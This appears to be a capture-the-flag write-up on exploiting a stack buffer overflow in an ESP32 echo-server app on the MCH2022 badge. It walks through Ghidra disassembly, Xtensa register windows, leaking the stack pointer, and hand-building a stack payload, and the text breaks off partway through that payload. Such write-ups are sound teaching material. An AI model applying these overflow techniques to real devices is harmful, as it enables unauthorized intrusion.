



Hack you ‘cause I can: Solving the MCH2022 badge CTF challenge
Contents
Hack you ‘cause I can: Solving the MCH2022 badge CTF challenge#
a writeup by Joachim “dojoe” Fenkes (github) (twitter)
Table of contents
Introduction#
At the MCH2022 hacker camp, there was a great CTF with interesting challenges, and one of the challenges involved the camp badge, which is built around an ESP32 chip as its main processor. The badge operating system allows folks to build apps for the ESP32 which can be launched from the main menu, and the badge came pre-loaded with a bunch of such apps.
One of these apps is called “Hack me if you can”, and the CTF challenge was to find a bug in that app which could be exploited over WiFi to extract the flag from the badge. To make sure that people wouldn’t simply extract the flag some other way, most badges contained a dummy flag, and only a few select badges (closely guarded by the folks in the CTF tent) would contain the real flag. This way, folks could develop a remote exploit using their own badge and, once they had a working exploit, visit the CTF tent to retrieve the flag.
Our team was one of only two teams to solve the challenge during the camp and retrieve the flag, which both makes me very proud and morally compels me to write up our findings. So here’s the story of how we got from knowing absolutely fuck-all to a delicious flag.
Note
This is a post-mortem writeup where I am documenting the happy path, omitting most of the many false starts and dead ends we encountered. If anything in here makes you think “Jeez, how did they come up with that?”, you’re probably reading the straight-line version of what used to be a winding road :)
Materials#
Before we begin, let’s gather some materials. Even if you don’t have an MCH badge at hand you’ll be able to follow parts of this writeup with them.
Ghidra for reverse engineering - I used version 10.1.4 for this challenge in case it matters
esptool for converting ELF files into ESP .bin files
mch2022-tools for uploading apps to the badge
hackmeifyoucan.tgz - the ELF variant of the app, including debug symbols
The Xtensa ISA reference for understanding the core
Mirrored from here for preservation
The Ghidra Xtensa plugin for disassembling the binary
The 0.3 release on GitHub is ancient and won’t work with recent Ghidra versions. You’ll have to build the latest HEAD from source or use this pre-built release if you choose to trust my partner in crime DoubleJ who did the build.
Feeling our way around#
Okay, now that we have all our materials at hand, let’s take a look at the app!
Behavior#
After starting, the app will show a “Starting service…” screen for a while, followed by the application main screen:
In addition, the kite LEDs on the badge will turn red, green or yellow depending on the detected configuration:
Blue: The app needs to be updated
Green: The app is up and running but this badge only contains a dummy flag.
Red: The app is up and running and this badge contains the actual flag.
Well, it says there’s a service. It would be rude not to take it up on that offer:
The app displays a screen asking whether I want to accept the connection from my laptop - that’s promising. Let’s accept.
…huh. Firefox displays a blank page, and according to the badge display, the app has crashed. It also says check console for more details …there’s a console?
We just learned a few things:
The app is probably not an HTTP server.
Whatever it serves, it’s got a crashy bug that might be exploitable!
The badge developers seem to have implemented a pretty kickass crash recovery system.
There’s apparently a “console” of some sort.
That latter part is intriguing - let’s find that console!
Console#
The presence of a serial console is a little hidden on the Hardware page of the Badge documentation but hey, just plugging the badge in and looking at your shiny new USB devices would have easily tipped you off anyway so ehh.
There’s actually two USB serial consoles on the badge. One leads to the ESP, the other to the FPGA. Myself, I didn’t know that until five minutes ago, I just picked the one that spewed data when I booted the badge :) Speaking of spewing data; do set a baud rate of 115200 when you connect, anything else will yield UART encrypted text (aka gibberish).
Launching the Hack me if you can app with the USB console connected yields a metric fuckton of information, along with this:
I (4408) hack-me-if-you-can: Socket bound 192.168.178.50:1337
I (4408) hack-me-if-you-can: No flag found in hackmeifyoucan:flag NVS storage...
I (4438) hack-me-if-you-can: Flag set to: flag{not_a_real_flag}
Neat! So we learned some more things!
(updated) There’s a serial USB console which is a veritable trove of information!
The difference between a badge that contains a flag and one that doesn’t seems to be a record in some non-volatile storage, and if that record is not present the app will use a dummy flag value.
As a direct result from 5, we can conjecture that badges with a flag are running the exact same binary as we are, which would be great as we would be able to transfer our exploit without having to guess at differences between app variants.
We did not, however, figure out which protocol the app is serving yet. Let’s crack open the binary, maybe it will speak to us.
Disassembly#
So let’s load the .elf file conveniently provided by the app developers into Ghidra. The app uses the Xtensa LX6 core built into the ESP32 chip, and fresh out of the box Ghidra doesn’t know jack about that architecture, so we have to install the Xtensa plugin first. Installation is simple: Just extract the Xtensa directory from the zip into the Ghidra/Processors subdirectory of where you installed Ghidra, then restart Ghidra if you had it open.
Now you can create a new project for this challenge, import hack_me_if_you_can.elf with default settings, load it into the Code Browser and run the default set of analysis steps.
You will find that Ghidra already knows an awful lot about the target program - structs, symbols, locations, sections etcetera. This is thanks to the debug symbols conveniently left in the .elf file by the developers. Apparently they don’t want us to spend hours wading through incomprehensible disassembly and following red herrings and instead to focus on the actual bug and exploitation thereof. Thank you for that <3
You will also quickly find that the decompiler produces only gibberish. The Xtensa plugin provides disassembler support but no working decompiler support 1, so we’ll have to work with the disassembly LIKE WE DID IN THE OLD DAYS <strokes grey beard>. Best expand that disassembly pane and switch the right pane to something other than the decompiler, it’ll only confuse the heck out of us.
Xtensa assembly demystified#
Xtensa assembly is pretty easy to read if you’re already acquainted with other RISC architectures like ARM or PowerPC. The instruction mnemonics are intuitive and there are no special registers whatsoever, just a GPR file of registers a0..a15. Looking at the assembly, it seems like a1 is used as the stack pointer - the entry a1, <value> at the beginning of functions is a dead giveaway. Let’s keep that in mind for later.
The one thing that caused me some confusion at first was that there are different flavors of some instructions, such as mov and mov.n - do those .n instructions have special meaning? A bit of browsing the ISA reference quickly reveals that no, they do exactly the same. Xtensa just has a special “narrow” encoding for some instructions that come up a lot in average code. Normal Xtensa instructions are three bytes, whereas the narrow forms only take up two bytes, conserving some code space. So mov.n is simply the narrow variant of mov and when reading the assembly we can treat it exactly the same as mov.
First impressions#
With that out of the way, let’s take a look at the disassembly.
Nice app header that nobody cares about. Where’s the main function? Since we have debug symbols, we can just search the symbol tree for main and quickly find two symbols of interest, main_task and app_main. No pure main.
Looking at main_task, we quickly find that it seems to end up deferring to app_main:
LAB_4016f6ac XREF[2]: 4016f690(j), 4016f698(j)
4016f6ac 81 e8 81 l32r a8,->app_main = 400d7918
4016f6af e0 08 00 callx8 a8
So I guess app_main will be more interesting:
400d791b 65 54 00 call8 bsp_init
400d791e 65 5f 00 call8 bsp_rp2040_init
400d7921 e5 db ff call8 show_startup_screen
400d7924 e5 e8 ff call8 start_service
400d7927 a2 a0 00 movi a10,0x0
400d792a 25 96 ff call8 show_main_screen
That does look interesting! Looks like this is the main app code, and the way it calls a bunch of functions in sequence matches the app behavior. Thanks again to the devs for leaving the debug symbols in there and not enabling optimizations like aggressive inlining which would have greatly obfuscated the program structure.
Since we’re currently interested in what protocol the app serves, let’s dive into the start_service function:
[ ... some initialization ... ]
400d7839 c1 56 e3 l32r a12,DAT_400d0594 = 00001000h
400d783c b1 bd e3 l32r a11,PTR_s_echo_server_400d0730 = 3f4037e0
400d783f a1 bd e3 l32r a10,->echo_server = 400d7448
400d7842 25 e9 b4 call8 xTaskCreatePinnedToCore
[ ... more initialization ... ]
echo_server? Well shiver me timbers, might this be implementing a simple echo server that parrots back anything you send its way?
Let’s update what we know, shall we?
(updated) The app seems to be serving a simple “echo server”.
Register
a1seems to be used as the stack pointer.
Let’s try talking to that server again now and see how it behaves.
Talking to the echo server#
Let’s talk to the server directly then:
nc 192.168.178.50 1337
The app asks us for permission to connect, we accept and netcat is connected!
Connection accepted!
Likewise, the app screen has changed to
Handeling[sic!] connected client from: <my laptop's IP>
Neat! Let’s talk to it:
asdf
asdf
Ugh, I hate it when someone does that!
Stop imitating me!
Stop imitating me!
ARRRGGH!
asdfglkjhasdflköajsdflkjahsdfglkjahsd
asdfglkjhasdflköajsdflkjahsdfgl�
�?9@
…now wait a minute… that’s not quite what I typed!
asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf
asdfasdfasdfasdfasdfasdfasdfasdf�
�?9@?asdfasdf
…hmmmmm…
asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf
…never gets a response, nor does anything I type after it. At least not over the network. The debug console however does give us a response:
I (1346018) hack-me-if-you-can: Received 49 bytes
Guru Meditation Error: Core 0 panic'ed (LoadProhibited). Exception was unhandled.
Core 0 register dump:
PC : 0x400df38d PS : 0x00060730 A0 : 0x800d731e A1 : 0x3ffbf150
A2 : 0x00000002 A3 : 0xffffffff A4 : 0x00000001 A5 : 0x41900000
A6 : 0x40a00000 A7 : 0x43480000 A8 : 0x00000001 A9 : 0x3ffbf1b0
A10 : 0x00000001 A11 : 0x00000000 A12 : 0x3ffb40f0 A13 : 0x00000001
A14 : 0x3ffbf2c0 A15 : 0x43480000 SAR : 0x0000000e EXCCAUSE: 0x0000001c
EXCVADDR: 0x0000000f LBEG : 0x4000c2e0 LEND : 0x4000c2f6 LCOUNT : 0xffffffff
Backtrace:0x400df38a:0x3ffbf150 0x400d731b:0x3ffbf1f0 0x400d739e:0x3ffbf210
0x400d739e:0x3ffbf230 0x400d739e:0x3ffbf250 0x400d739e:0x3ffbf270
0x400d739e:0x3ffbf290 0x400d739e:0x3ffbf2b0 0x400d739e:0x3ffbf2d0
0x400d7670:0x3ffbf2f0 0x4008e055:0x3ffbf410
ELF file SHA256: b1e3592d04801c8c
Entering gdb stub now.
$T0b#e6
Looks like we successfully crashed the app, and for good this time - no crash handler to come to our rescue and fall back to the main menu. But instead we got a pretty nice register dump and backtrace!
We can’t be sure yet, but the way how the echo string is being corrupted beyond a certain length, and the fact that increasing its length even further completely crashes the program, smells suspiciously like stack corruption, which would be a perfect entry point for an exploit!
So let’s summarize our new findings:
(updated) The app is a simple echo server which accepts connections via TCP and returns any string sent through the connection back to the client verbatim.
(updated) The echo server seems to have a problem with requests beyond a certain length; judging by the corruption/crash it is likely that this is caused by overflowing a buffer on the stack.
In case of a fatal exception we get a register dump and backtrace on the USB console.
There even seems to be a gdb stub available; let’s keep that in the back of our mind just in case.
The Game Plan#
It looks like we’re done with our first exploration of the target; let’s summarize our findings so far:
The app is a simple echo server which accepts connections via TCP and returns any string sent through the connection back to the client verbatim.
The echo server seems to have a problem with requests beyond a certain length; judging by the corruption/crash it is likely that this is caused by overflowing a buffer on the stack.
The badge developers seem to have implemented a pretty kickass crash recovery system.
There’s a serial USB console which is a veritable trove of information!
The difference between a badge that contains a flag and one that doesn’t seems to be a record in some non-volatile storage, and if that record is not present the app will use a dummy flag value.
As a direct result from 5, we can conjecture that badges with a flag are running the exact same binary as we are, which would be great as we would be able to transfer our exploit without having to guess at differences between app variants.
Register
a1seems to be used as the stack pointer.In case of a fatal exception we get a register dump and backtrace on the USB console.
There even seems to be a gdb stub available.
We actually know enough now to come up with a more targeted plan of attack:
Figure out where the flag we’re looking for resides in memory
Understand the nature of the (suspected) stack overflow
Figure out a way to exploit it in a way that we can extract the flag over the network
Where’s the flag?#
This one might prove pretty easy since the app is helpfully providing us with debug output around its efforts to determine the flag.
Well that was easy! That’s the fake flag that’s being set if the badge doesn’t contain a real flag.
s_flag{not_a_real_flag}_3f4038c0 XREF[1]: 400d0750(*)
3f4038c0 66 6c 61 ds "flag{not_a_real_flag}"
67 7b 6e
6f 74 5f
Let’s follow that xref back to the start_service function:
400d78e3 2c 7c movi.n a12,0x27
400d78e5 b1 9a e3 l32r a11,PTR_s_flag{not_a_real_flag}_400d0750 = 3f4038c0
400d78e8 a1 98 e3 l32r a10,->flag = 3ffb5358
400d78eb 81 9b e3 l32r a8,DAT_400d0758 = 400015D4h
400d78ee e0 08 00 callx8 a8
Without even looking at the disassembly, I’m going to bet you that the function indirectly called here is memcpy. This call occurs in a code block that is executed after a call to nvs_get_str returns a nonzero value, and that same code block contains a call to esp_log_write with a data pointer to something that looks suspiciously like a string:
DAT_3f403874
3f403874 1b ?? 1Bh
3f403875 5b ?? 5Bh [
3f403876 30 ?? 30h 0
3f403877 3b ?? 3Bh ;
3f403878 33 ?? 33h 3
3f403879 32 ?? 32h 2
3f40387a 6d ?? 6Dh m
3f40387b 49 ?? 49h I
3f40387c 20 ?? 20h
3f40387d 28 ?? 28h (
3f40387e 25 ?? 25h %
3f40387f 75 ?? 75h u
3f403880 29 ?? 29h )
Let’s help Ghidra along and convert it to a string (right click -> Data -> TerminatedCString):
s__[0;32mI_(%u)_%s:_No_flag_found_i_3f403874
3f403874 1b 5b 30 ds 1Bh,"[0;32mI (%u) %s: No flag found in hackmei
3b 33 32
6d 49 20
Well, there’s our console trace again! Looks like this code block is the “if no flag in NVS” path. The code block above it seems to be the “if there’s a flag in NVS” path, and it’s got another suspicious call:
400d789e a5 bb ba call8 malloc
400d78a1 3d 0a mov.n a3,a10
400d78a3 d2 c1 14 addi a13,a1,0x14
400d78a6 cd 0a mov.n a12,a10
400d78a8 b1 a6 e3 l32r a11,PTR_s_flag_400d0740 = 3f403830
400d78ab a2 21 04 l32i a10,a1,0x10=>Stack[0x10]
400d78ae 65 67 16 call8 nvs_get_str
400d78b1 21 a5 e3 l32r a2,->flag = 3ffb5358
400d78b4 2c 6c movi.n a12,0x26
400d78b6 bd 03 mov.n a11,a3
400d78b8 ad 02 mov.n a10,a2
400d78ba 81 a7 e3 l32r a8,memcpy = 400015D4h
400d78bd e0 08 00 callx8 a8
Note that I renamed our pointer from above to memcpy to make its meaning clear. So we’re apparently loading the flag string from NVS into a malloc’ed bit of memory, and then memcpy the value over to a static location; the same location that we copied the fake flag to in the other code block. I bet you that’s the flag location we should extract. I agree, the name flag could have tipped me off early on but where’s the fun in that?
So we conclude: The flag sits at 0x3ffb5358!
Reversing the echo server#
Next up let’s reverse the echo server and find out why it’s crashing. Given how the start_service routine sets up echo_server as the main thread function for the service thread let us start there:
400d747c 65 c9 29 call8 lwip_socket
[ ... ]
400d74c4 25 19 2a call8 lwip_setsockopt
[ ... ]
400d74d4 25 74 29 call8 lwip_bind
[ ... ]
400d7535 e5 85 29 call8 lwip_listen
Hmm, looks like this app is using a TCP implementation called lwip (guessing that means LightWeight IP) and its API looks like the standard Unix socket API 2. That makes reversing a lot easier since I can transfer my knowledge of that API to this unknown target.
Just scrolling through the disassembly some more, we see a bunch more lwip calls… accept, setsockopt, then a call to ask_permission (gee i wonder what that does), send and finally do_echo_recursive:
400d766a b2 a0 09 movi a11,0x9
400d766d 20 a2 20 mov a10,pvParameters
400d7670 a5 d1 ff call8 do_echo_recursive
I bet that last one is the actual echo implementation, but why recursive?
**************************************************************
* FUNCTION *
**************************************************************
_Bool __stdcall do_echo_recursive(int sock, int count)
_Bool a2:1 <RETURN>
int a2:4 sock
int a3:4 count
do_echo_recursive XREF[4]: Entry Point(*), 400d739e(*),
echo_server:400d7670(*),
.debug_frame::00004de0(*)
400d738c 36 41 00 entry a1,0x20
400d738f ad 02 mov.n a10,sock
400d7391 cc 73 bnez.n count,LAB_400d739c
400d7393 65 f9 ff call8 do_echo
400d7396 c6 01 00 j LAB_400d73a1
400d7399 00 ?? 00h
400d739a 00 ?? 00h
400d739b 00 ?? 00h
LAB_400d739c XREF[1]: 400d7391(j)
400d739c 0b b3 addi.n a11,count,-0x1
400d739e e5 fe ff call8 do_echo_recursive
LAB_400d73a1 XREF[1]: 400d7396(j)
400d73a1 2d 0a mov.n sock,a10
400d73a3 1d f0 retw.n
Huh, so this little function appears to be calling itself recursively a bunch of times (depending on the count parameter) and then eventually call do_echo. Looking at the call site it seems like one of the parameters is 9; that’s probably our count.
Wait what?!
Why is count being loaded into a11 when the function expects it in a3?!
I guess it’s time to introduce one of the most unusual features of the Xtensa architecture.
Details of the Xtensa architecture you never wanted to learn but now have to#
Windowed registers#
The Xtensa architecture optionally implements something called “windowed registers”, where the core has a physical register bank that is larger than the architected 16 GPRs. At any time, a contiguous range of 16 of these physical registers is visible to code; if the window exceeds the end of the physical register bank it wraps around to the beginning.
Each call instruction optionally shifts this register window by four, eight or twelve registers - that’s why there are four flavors of call: call0, call4, call8 and call12. When, say, a function called by call8 is entered, a8 becomes a0, a9 becomes a1 and so forth. The previous a0..a7 become inaccessible, and new a8..a15 are exposed at the top end of the register range. Upon return from the function, the process is reversed and the previous a0..a7 become visible again.
This method effectively turns the physical register bank into a very fast kind of stack; in the call8 example the caller can be sure that its a0..a7 will be preserved, and the callee does not have to worry about saving off any registers before using them. This saves a lot of stack access and improves execution performance.
This is also why the count parameter is loaded into a11 - inside do_echo_recursive it magically turns into a3 because call8 is used.
Wait what?!
That’s nice and all, but that “register stack” is not infinite - won’t we eventually start overwriting saved register values?
That’s a very correct observation and we need to do something about this! Of course this register windowing is not a panacea; eventually we’ll still have to save register values off to the stack. But the windowing mechanism will defer these stack accesses to a later point, and as long as the call stack only swings back and forth by 2-3 calls (which is usually the case in hot parts of a program) no stack access will be necessary at all.
Still, any register might eventually have to be saved, so each function must provide a save area for its registers on the stack. This is why, for example, do_echo_recursive reserves 32 bytes of stack even though it doesn’t have any locals - it uses call8 to call other functions and thus must reserve space for 8 registers to be saved.
This is why do_echo_recursive exists. It makes sure to rotate the register window enough times that we can be certain a significant amount of registers has been actually saved to the stack by the time we’re inside do_echo, for us to overwrite. Once again, the app developers are actively helping us out <3
The call - entry worksplit#
Finally, there is one more detail we have to talk about: A callee does not have to know nor care whether it’s been called by call4, call8 or any other call instruction - it must be agnostic of the amount of registers saved by the caller.
For this reason, it is not the callN instruction which moves the register window, but the entry instruction at the beginning of the callee. The amount of registers to move is communicated to it by the callN instruction in the topmost two bits of a0, with the remaining bits containing the return address. Likewise, the retw instruction will use these top two bits to determine by how much to move the window back.
This has several direct consequences which will become important later:
A return “address” on the stack might not look like an actual program address at first glance.
When constructing our own stack for an exploit we must be mindful of this.
Calls must stay within the same 1GiB segment of address space since the topmost two bits of the PC cannot be modified by the
callNinstructions.
For more details about windowed registers, I recommend reading the Xtensa ISA reference, chapter 4.7.1.
Stack layout#
The theory lesson ain’t over yet though. Sorry not sorry. We still have to understand how the stack is laid out exactly, and it’s not entirely trivial.
See, Xtensa has another quirk up its sleeve: Backtracing the stack must be possible without knowledge of the specific routines, so the return address and the pointer to the previous stack frame must be at the same location relative to the current stack pointer regardless of the size of the stack frame.
To realize this, Tensilica came up with the following stack layout:
The return address and stack pointer for the current function are in
a0anda1respectively 3.r0..r3will be saved to a “base save area” which is part of the current stack frame - located below the current stack pointer. This area is the same size regardless ofcallNinstruction used and thus provides a reliable way of accessingr0andr1.Any other registers will be saved to an “extra save area” which is part of the caller’s stack frame - only the caller knows the required size after all. It can be accessed through the recovered value of
r1.
Because that’s totally not confusing at all, here’s an image to illustrate the concept, pulled straight from the ISA reference. I found myself going back to this figure many times.
Coffee Break#
Now might be a good time to go grab a beverage of your liking and let the previous chapters sink in while pondering your life choices. It’s never too late to take up a career in herding sheep or woodworking, y’know? Just sayin’.
Ah, who am I kidding? Take your time to finish your drink before we move on though. Hydration is important, as is time to let things settle.
Go on, I’ll wait.
Reversing the echo server, part two: Electric Boogaloo#
Awright, now with that architecture knowledge under our belt and a freshly caffeinated brain, let’s finally dive into the do_echo function and see if we can spot the bug!
**************************************************************
* FUNCTION *
**************************************************************
_Bool __stdcall do_echo(int sock)
_Bool a2:1 <RETURN>
int a2:4 sock
char[32] Stack[-0x40] small_buf
do_echo
400d7328 36 81 00 entry a1,0x40
This already tells us a lot about the function’s stack layout, given what we just learned:
The function reserves 64 bytes on the stack. We can see below that it’s using
call8calls throughout, so 32 of those bytes will be reserved for register save areas, split into the base save area right below the stack pointer (a1 - 16througha1) and the extended save area (a1 + 32througha1 + 48).The space in between those save areas (
a1througha1 + 32) makes up the locals ofdo_echo- which the debug information conveniently informs us is a single buffer of 32 bytes.
Hmm, a 32 byte buffer on the stack, and previously the echo server was behaving oddly when we sent it more than 32 bytes of stuff at once… I betcha that’s the buffer that overflows! Let’s see where it’s being used:
400d733d 3d 01 mov.n a3,a1
/- 400d733f 46 00 00 j LAB_400d7344
| LAB_400d7342
/-->400d7342 3d 0c mov.n a3,a12
|| LAB_400d7344
|\->400d7344 0c 0d movi.n a13,0x0
| 400d7346 c2 a0 01 movi a12,0x1
| 400d7349 bd 03 mov.n a11,a3
| 400d734b 20 a2 20 mov a10,sock
| 400d734e 25 ba 29 call8 lwip_recv
|/- 400d7351 96 3a 03 bltz a10,LAB_400d7388
|| 400d7354 1b c3 addi.n a12,a3,0x1
|| 400d7356 32 03 00 l8ui a3=>Stack[0x0],a3,0x0
\+- 400d7359 66 93 e5 bnei a3,0xa,LAB_400d7342
v
Transcribed, this loop does the following:
Initialize
a3to point to the start of the buffer (ata1since that’s the start of our locals and the buffer is our only local).Call
lwip_recv(sock, a3, 1, 0), i.e. attempt to receive one byte into the buffer at locationa3.If
lwip_recvfails, abort (jump target outside the snippet).Store the location of the next byte in
r12.Load the byte we just received and compare to 0x0a (i.e. a newline).
If it’s not a newline, repeat from step 2 with
a3pointing to the next byte in the buffer; else fall through.
You immediately noticed the absence of a check for buffer overflow, didn’t you? This code will happily receive bytes until it encounters a newline, overwriting the entire stack if necessary. There’s our buffer overflow - we have full control over the stack leading up to ``do_echo``.
Before we race to craft an exploit though, let’s continue looking at do_echo and see what else it can tell us:
400d735c 10 3c c0 sub a3,a12,a1
400d735f 41 d5 e4 l32r a4,->TAG
400d7362 58 04 l32i.n a5,a4=>TAG,0x0
400d7364 25 b8 b9 call8 esp_log_timestamp
400d7367 fd 03 mov.n a15,a3
400d7369 e8 04 l32i.n a14,a4=>TAG,0x0
400d736b dd 0a mov.n a13,a10
400d736d c1 d2 e4 l32r a12,PTR_s__[0;32mI_(%u)_%s:_Received_%i_by_400
"\e[0;32mI (%u) %s: Received %i bytes\e[0m\n"
400d7370 bd 05 mov.n a11,a5
400d7372 0c 3a movi.n a10,0x3
400d7374 a5 aa b9 call8 esp_log_write
Ah, so it determines the amount of bytes received (by subtracting a1 from a12) and then logs them to the console. I remember seeing that log earlier.
400d7377 0c 0d movi.n a13,0x0
400d7379 cd 03 mov.n a12,a3
400d737b bd 01 mov.n a11,a1
400d737d ad 02 mov.n a10,sock
400d737f e5 d0 29 call8 lwip_send
And then it sends the entire buffer back to the client using lwip_send. Let’s keep this in mind - wouldn’t it be ace if we could use the same function in our exploit to send back the flag?
Let’s summarize, what do we have and not have?
We have:
A way to overwrite the stack from
do_echo’s frame upwards.A function we can call to send arbitrary memory contents back to the client.
A scratch pad on the stack (the 32 byte buffer) we have direct control over.
We don’t have:
A way to read the stack
Given the use of call8 everywhere and the tall chain of recursive stack frames conveniently laid out for us, this means we have direct control over r0..r7. Taking into account the moving register window, across two consecutive stack frames we even have control over all registers.
The lack of a stack read primitive means we have to construct the entire stack by hand, or figure out how to attach a debugger and dump the stack. I chose the former, but for that we’ll need the value of the stack pointer during do_echo execution.
Luckily we have a convenient method of extracting that value already in the app!
Dude, where’s my stack?!#
The devs were so friendly and put a debug trace right into do_echo that we can use to extract the value of any register, including the stack pointer. Basically it just requires patching a single instruction:
400d7367 fd 03 mov.n a15,a3
into
mov.n a15,a1
We don’t even have to know the instruction encoding, Ghidra can do that for us. Move to the instruction and hit Ctrl-Shift-G for “Patch instruction” (yes yes, the assembler has not been tested yadda yadda, it’s ok, we know what we’re doing), change the register and you won’t even have to actually patch the instruction in your database because Ghidra already tells you the encoding:
So all we have to do is make a copy of hack_me_if_you_can.elf, replace 25 b8 b9 fd 03 (only one occurrence, yay!) with 25 b8 b9 fd 01, and for printout convenience, also replace Received %i bytes by Received %p bytes so that we get a nice hex value.
Now we can use esptool to convert our patched ELF to an app binary:
esptool.py elf2image hack_me_if_you_patch.elf
and upload that to the badge using the mch2022-tools:
webusb_push.py hax hack_me_if_you_patch.bin
Connect to the USB console, start the patched app, connect using netcat and send whatever, you’ll see this:
I (14768) hack-me-if-you-can: Received 0x3ffbf170 bytes
And that’s our stack pointer!
Note
Of course, you could also simply insert an illegal instruction (try 00 00 00) to get a guru meditation that dumps all registers at once. That would have probably been a lot easier and doesn’t require a conveniently located debug print either.
Warning
This stack pointer value is not stable between environments! Throughout the camp, connected to the camp WiFi I had a stable value of 0x3ffc0cd0. Back home in my home WiFi the value is now 0x3ffbf170. Your value may be different yet. I’m going to construct my exploits below using 0x3ffbf170 but keep in mind that you may have to use different values.
Warning
Do not attempt to patch the ESP .bin unless you absolutely have to - it’s protected by checksums and hashes that will prevent a patched binary from being loaded. It’s much easier to patch the ELF and use esptool to generate the .bin.
Crafting an exploit, act 1: Please don’t crash#
We finally have all we need to craft a first exploit payload. Let’s gently feel our way forward and first try to construct a stack that won’t horribly crash on us, i.e. try to reconstruct the original stack. If we can send this stack image over to the buggy app without it crashing we’ll know our understanding so far is correct.
Setting up a template#
There might be plenty of awesome tools for crafting stack payloads around, but I simply used a hex editor :) Let’s start by writing a text file in a text editor:
asdfasdfasdfasdfasdfasdfasdfasdfA4A4A5A5A6A6A7A7C0C0C1C1C2C2C3C3B4B4B5B5B6B6B7B7D0D0D1D1D2D2D3D3C4C4C5C5C6C6C7C7E0E0E1E1E2E2E3E3D4D4D5D5D6D6D7D7F0F0F1F1F2F2F3F3E4E4E5E5E6E6E7E\n
One line, no line breaks except the one at the very end. Make sure it’s Unix encoded so the \n is a single 0x0A byte. Save the file as payload1-nocrash.bin, and re-open in your favorite hex editor. Here’s the file layout:
asdfasdfasdfasdfasdfasdfasdfasdf:The 32-byte receive buffer.
A4A4A5A5A6A6A7A7:Extra save area for
do_echo’s stack frame, dubbed frame A from now on.A4A4isa4,A5A5isa5and so on.C0C0C1C1C2C2C3C3:Base save area for the stack frame two above
do_echo, dubbed frame C.
And so forth for the stack frames further up. All those frames are do_echo_recursive so we know there are no locals in between the save areas.
There’s no specific method to the amount of stack frames I put in there; there are a few constraints though:
We must not overwrite too many frames or we’ll eventually end up returning from
echo_serveritself. The RTOS doesn’t like that, btdt. So let’s keep the number of frames below 9-ish.We may need more than one full set of registers later, so let’s put more frames in than just one or two, for good measure.
Between those constraints, three full stack frames (C, D and E) felt like an okay starting point. If we need more we’ll add them later.
With that, we can now replace register values in all the stack frames from B upwards; the frame A extra save area will be overwritten by register values saved during the lwip_recv calls - looks like they have a proper long call chain inside. Luckily we don’t have to be careful not to clobber any registers in do_echo_recursive since all it does is return.
Choosing register values#
All we’d like to do for now is guess register values that won’t cause the program to crash. Since a2..a8 aren’t being used in the return path of do_echo_recursive we don’t have to deal with their values right now. What’s important is the return addresses in r0 and stack pointers in r1.
Let’s start with the first pair of these, in the frame C base save area. Let’s think for a second: Frame A is do_echo, so frame B is the do_echo_recursive call which ends up calling do_echo and frame C is one of the many do_echo_recursive calls which call themselves. So the return address for frame C should point here:
LAB_400d739c
400d739c 0b b3 addi.n a11,count,-0x1
400d739e e5 fe ff call8 do_echo_recursive
LAB_400d73a1
400d73a1 2d 0a mov.n sock,a10 <===== HERE
400d73a3 1d f0 retw.n
But you know what? This would clobber any value we may have painstakingly put into a2, so let’s deviate from the original flow a bit and skip that mov instruction. Let’s use the address of the retw instead.
Also, this is a great moment to remember how the topmost two bits of the return address actually encode the amount to shift the register window when returning! We better encode the right value in here! Since we’re using call8 everywhere that would be 0b10.
With all that in mind, we can craft our first register value:
r0 = 0x800d73a3
Let’s think about the stack pointer next. We know the stack pointer value for frame A, 0x3ffbf170. The size of that frame is 0x40, so the stack pointer for frame B would be 0x3ffbf1b0. That frame and all that follow are 0x20 bytes, so the stack pointer of frame C would be 0x3ffbf1d0:
r1 = 0x3ffbf1d0
Putting it all together#
Neat, let’s put that into our payload! Keeping in mind that values are stored in little-endian order, we can change this:
0030: 43 30 43 30 43 31 43 31 43 32 43 32 43 33 43 33 C0C0C1C1C2C2C3C3
into this:
0030: a3 73 0d 80 d0 f1 fb 3f 43 32 43 32 43 33 43 33 .s.....?C2C2C3C3
For stack frames D, E and F we can reuse the same value for r0 since we want to return to the same location, but we have to update the stack pointers to the corresponding next stack frame. That’s easy though since each frame is 0x20 bytes long so we just have to keep adding 0x20 each time:
xxd -g1 payload1-nocrash.bin
00000000: 61 73 64 66 61 73 64 66 61 73 64 66 61 73 64 66 asdfasdfasdfasdf
